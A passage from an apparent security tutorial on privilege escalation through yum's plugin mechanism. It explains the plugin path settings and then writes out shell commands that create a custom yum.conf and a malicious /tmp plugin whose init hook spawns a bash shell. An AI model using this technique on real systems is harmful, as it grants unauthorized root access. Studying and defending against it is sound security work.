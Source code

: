 - **pluginpath** 

	A list of directories where yum should look for plugin modules. Default is `/usr/share/yum-plugins` and `/usr/lib/yum-plugins`.

- **pluginconfpath** 

	A list of directories where yum should look for plugin configuration files.  Default is `/etc/yum/pluginconf.d`.

Using this information we can look at yum.conf on our centos server.

{{< image src="/img/package_manager_privesc/privesc-18.png" alt="" position="center" style="border-radius: 8px;" >}}

We see that plugins are currently enabled, but there's not entry for the other options meaning the default options apply. 

We can confirm this by seeing the fastestmirror plugin file and configuration.

{{< image src="/img/package_manager_privesc/privesc-19.png" alt="" position="center" style="border-radius: 8px;" >}}

Now we are ready to perform the exploit. Since as a low privileged user we cannot write the default plugin directories, we need to use a
configuration file that specifies directories we have permission to write.

Fortunately, yum allows us to specify a configuration file via the commandline via the `-c` option. Let's create a configuration
file called `custom_yum.conf` with the below contents.

```sh
cd /tmp
cat >custom_yum.conf<<EOF
[main]
plugins=1
pluginpath=/tmp/badplugin
pluginconfpath=/tmp/badplugin
EOF
```

Next let's create the plugin configuration file, but put it in the badplugin folder.

```sh
mkdir badplugin
cat >badplugin/badplugin.conf<<EOF
[main]
enabled=1
EOF
```

Then create the plugin itself.

```py
cat >badplugin/badplugin.py<<EOF
import os
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE, API_VERSION
requires_api_version=API_VERSION
def init_hook(conduit):
  os.execl('/bin/bash','/bin/bash')
EOF
```
